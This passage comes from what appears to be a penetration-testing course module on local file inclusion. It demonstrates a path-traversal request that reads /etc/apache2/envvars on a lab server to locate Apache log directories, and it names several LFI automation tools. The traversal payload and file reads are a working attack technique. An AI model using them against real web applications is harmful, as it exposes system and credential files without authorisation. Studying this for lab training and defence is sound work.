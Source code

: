As we can see, we do get the default webroot path and the log path. However, in this case, the log path is using a global apache variable (`APACHE_LOG_DIR`), which are found in another file we saw above, which is (`/etc/apache2/envvars`), and we can read it to find the variable values:


```shell-session
smoothment@htb[/htb]$ curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/envvars

...SNIP...
export APACHE_RUN_USER=www-data
export APACHE_RUN_GROUP=www-data
# temporary state file location. This might be changed to /run in Wheezy+1
export APACHE_PID_FILE=/var/run/apache2$SUFFIX/apache2.pid
export APACHE_RUN_DIR=/var/run/apache2$SUFFIX
export APACHE_LOCK_DIR=/var/lock/apache2$SUFFIX
# Only /var/log/apache2 is handled by /etc/logrotate.d/apache2.
export APACHE_LOG_DIR=/var/log/apache2$SUFFIX
...SNIP...
```

As we can see, the (`APACHE_LOG_DIR`) variable is set to (`/var/log/apache2`), and the previous configuration told us that the log files are `/access.log` and `/error.log`, which have accessed in the previous section.

**Note:** Of course, we can simply use a wordlist to find the logs, as multiple wordlists we used in this sections did show the log location. But this exercises shows us how we can manually go through identified files, and then use the information we find to further identify more files and important information. This is quite similar to when we read different file sources in the `PHP filters` section, and such efforts may reveal previously unknown information about the web application, which we can use to further exploit it.

---

## LFI Tools

Finally, we can utilize a number of LFI tools to automate much of the process we have been learning, which may save time in some cases, but may also miss many vulnerabilities and files we may otherwise identify through manual testing. The most common LFI tools are [LFISuite](https://github.com/D35m0nd142/LFISuite), [LFiFreak](https://github.com/OsandaMalith/LFiFreak), and [liffy](https://github.com/mzfr/liffy). We can also search GitHub for various other LFI tools and scripts, but in general, most tools perform the same tasks, with varying levels of success and accuracy.

Unfortunately, most of these tools are not maintained and rely on the outdated `python2`, so using them may not be a long term solution. Try downloading any of the above tools and test them on any of the exercises we've used in this module to see their level of accuracy.


# Question
----

![](cybersecurity/images/Pasted%2520image%252020250218171815.png)
